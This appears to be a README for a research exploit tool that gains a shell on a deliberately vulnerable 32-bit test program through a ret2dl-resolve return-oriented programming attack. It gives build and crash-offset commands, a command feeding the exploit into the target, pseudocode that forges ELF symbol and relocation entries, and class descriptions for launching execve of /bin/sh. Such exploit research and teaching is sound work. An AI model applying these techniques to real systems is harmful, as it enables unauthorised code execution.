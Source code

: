 How to test
===========

1. Build vuln.c

    gcc -fno-stack-protector ../vuln.c -o /tmp/vuln -m32 -O2

2. Find the offset of the saved IP

    ruby19 "$METASPLOIT/tools/pattern_create.rb" 256 | /tmp/vuln
    dmesg | tail
    ruby19 "$METASPLOIT/tools/pattern_offset.rb" $SEGFAULT_IP

3. Launch the attack with the desired parameter

    (python ./exploit.py /tmp/vuln --offset $OFFSET; echo ls) | /tmp/vuln

You can also just dump to a JSON file all the necessary information to
perform the exploit:

    python ./exploit.py /tmp/vuln --json

For debugging information, use the `--debug` parameter.

Basic idea
==========

char *buffer = .bss;
char *new_stack = buffer + 1024;
int *rubbish = new_stack + 4;

strcpy(buffer, "execve");
  *((int *) buffer) = 'exec';
  *(((int *) buffer) + 1) = 've\0\0';
char *name = buffer;
buffer += strlen(buffer) + 1;

Elf32_Sym *symbol = (Elf32_Sym *) buffer;
symbol->st_name = name - .dynstr;
symbol->st_value = 0;
symbol->st_info = 0;
symbol->st_other = 0;
symbol->st_shndx = 0;
buffer += sizeof(*symbol);

Elf32_Rel *reloc = (Elf32_Rel *) buffer;
reloc->r_offset = rubbish++;
reloc->r_info = (R_386_JUMP_SLOT | (symbol - .dynsym) / sizeof(symbol));
buffer += sizeof(reloc):

pre_plt((reloc - .rel.plt) / sizeof(Elf32_Rel));

Helper classes
==============

* `MemoryArea`: data structure representing a part of memory, with its
  start address, its size, a reference to what its relative to
  (e.g. the `MemoryArea` where we'll write the relocation structure
  will be relative to the `.rela.dyn` section). `MemoryArea` also
  takes care of computing the appropriate index (`MemoryArea.index`)
  relative to the specified part of memory.
* `Buffer`: data structure holding information about a buffer where we
  want to write to things. Typically this will represent to
  `.bss`. Buffer also keeps track of what part of it has already been
  allocated (`Buffer.current` points to the next free location) and
  allows to allocate new `MemoryArea`s with the appropriate
  alignement.

Exploit-derived classes
=======================

* `Exploit`: the base class, contains all the architecture- and
  platform-independent parts of the exploit. It keeps the list of the
  gadgets, it takes care of collecting all the interesting information
  about the program from the ELF file and abstracting some utility and
  memory-related functions (e.g. `write_pointer` and `write_string`)
  which rely on the abstract `do_writemem` function (which is
  platform- and program-dependent). Finally, in `jump_to`, contains
  the core logic for setting up the necessary data structures in the
  buffers.
* `CommonGadgetsExploit`: inherits from `Exploit` and introduces
  architecture-dependent parts, in particular gadgets and
  function-invocation logic.
* `ExecveExploit`: very simple class implementing the logic to launch
  an `execve`, so write a NULL pointer, a "/bin/sh\0" and explicitly
  look for `execve`. Finally invoke it.
* `RawDumperExploit`: exploit useful to just collect the information
  necessary to perform the attack without actually generating the ROP
  chain. `RawDumperExploit.jump_to` will return as first result an
  array of tuples `(address, what_to_write_there)`, which, for
  instance, are used to implement the `--json` parameter.
